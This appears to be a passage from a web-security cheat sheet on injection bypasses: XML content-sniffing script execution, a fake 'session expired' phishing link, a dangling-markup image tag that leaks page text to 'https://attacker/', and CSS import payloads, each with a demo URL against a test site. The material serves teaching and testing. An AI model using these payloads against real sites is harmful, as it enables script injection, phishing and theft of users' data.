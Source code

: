 Bypass also occurs when a character string can be written from the top of the page, `Content-Type`is not specified correctly, and XML is selected by Content Sniffing.

https://vulnerabledoma.in/bypass/text?mime=unknown&q=%3C?xml%20version=%221.0%22?%3E%3Cscript%20xmlns=%22http://www.w3.org/1999/xhtml%22%3Ealert(1)%3C/script%3E

```xml
<?xml version="1.0"?><script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script>
```

Anything less than this does not lead to script execution, but is allowed to be written and has the potential to be used for attacks to some extent.

### http(s): create link

https://vulnerabledoma.in/bypass/text?q=%3Ca%20href=https://attacker/%3ESession%20expired.%20Please%20login%20again.%3C/a%3E

```html
<a href=https://attacker/>Session expired. Please login again.</a>
```

### Tags that can send requests to the outside

It is sometimes possible to include confidential information in requests such as images, for example by using open quotes.

https://vulnerabledoma.in/bypass/text?type=8&q=%3Cimg%20src=%22https://attacker/?data=

```html
<p><img src="https://attacker/?data=</p>
<p>This is a secret text.</p>
<p id="x">AAA</p>
```

### Arbitrary CSS description

In addition to disguising the appearance of the page, if the same page contains sensitive information, it may be possible to retrieve the information using only CSS. See URL for details.

Reference URL:

- http://www.businessinfo.co.uk/labs/talk/The_Sexy_Assassin.ppt
- https://masatokinugawa.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html

https://vulnerabledoma.in/bypass/text?q=%3Cstyle%3E@import%20%27//attacker/test.css%27%3C/style%3E

```html
<style>@import '//attacker/test.css'</style>
```

https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=stylesheet%20href=//attacker/test.css%3E

```html
<link rel=stylesheet href=//attacker/test.css>
```

## bypass
